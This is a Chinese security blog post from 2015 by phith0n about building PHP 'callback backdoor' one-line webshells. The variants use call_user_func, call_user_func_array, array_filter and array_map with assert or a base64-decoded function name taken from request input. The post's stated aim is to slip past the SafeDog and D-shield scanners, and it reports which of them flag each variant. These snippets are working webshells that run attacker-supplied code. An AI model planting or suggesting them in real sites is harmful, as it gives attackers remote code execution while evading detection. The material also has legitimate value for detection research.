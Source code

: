 创造tips的秘籍——PHP回调后门
phith0n · 2015/07/20 10:58
0x00 前言

最近很多人分享一些过狗过盾的一句话，但无非是用各种方法去构造一些动态函数，比如$_GET['func']($_REQUEST['pass'])之类的方法。万变不离其宗，但这种方法，虽然狗盾可能看不出来，但人肉眼其实很容易发现这类后门的。

那么，我就分享一下，一些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。

有很多朋友喜欢收藏一些tips，包括我也收藏了好多tips，有时候在渗透和漏洞挖掘过程中很有用处。

一句话的tips相信很多朋友也收集过好多，过狗一句话之类的。14年11月好像在微博上也火过一个一句话，当时也记印象笔记里了：


最近又看到有人在发这个：http://www.secoff.net/archives/436.html

有同学收集tips，就有同学创造tips。那么我们怎么来创造一些过狗、过D盾、无动态函数、无危险函数（无特征）的一句话（后门）？

根据上面这个pdo的一句话，我就可以得到一个很具有普适性的结论：php中包含回调函数参数的函数，具有做后门的潜质。

我就自己给这类webshell起了个名字：回调后门。

0x01 回调后门的老祖宗

php中call_user_func是执行回调函数的标准方法，这也是一个比较老的后门了：

1

    call_user_func('assert', $_REQUEST['pass']);

assert直接作为回调函数，然后$_REQUEST['pass']作为assert的参数调用。

这个后门，狗和盾都可以查到（但是狗不会拦截）：


可php的函数库是很丰富的，只要简单改下函数安全狗就不杀了：

1

    call_user_func_array('assert', array($_REQUEST['pass']));

call_user_func_array函数，和call_user_func类似，只是第二个参数可以传入参数列表组成的数组。如图：


可见，虽然狗不杀了，D盾还是聪明地识别了出来。

看来，这种传统的回调后门，已经被一些安全厂商盯上了，存在被查杀的风险。

0x02 数组操作造成的单参数回调后门

进一步思考，在平时的php开发中，遇到过的带有回调参数的函数绝不止上面说的两个。这些含有回调（callable类型）参数的函数，其实都有做“回调后门”的潜力。 我最早想到个最“简单好用的”：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_filter($arr, base64_decode($e));

array_filter函数是将数组中所有元素遍历并用指定函数处理过滤用的，如此调用（此后的测试环境都是开着狗的，可见都可以执行）：


这个后门，狗查不出来，但D盾还是有感应，报了个等级3（显然比之前的等级4要低了）：


类似array_filter，array_map也有同样功效：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'],);
    array_map(base64_decode($e), $arr);
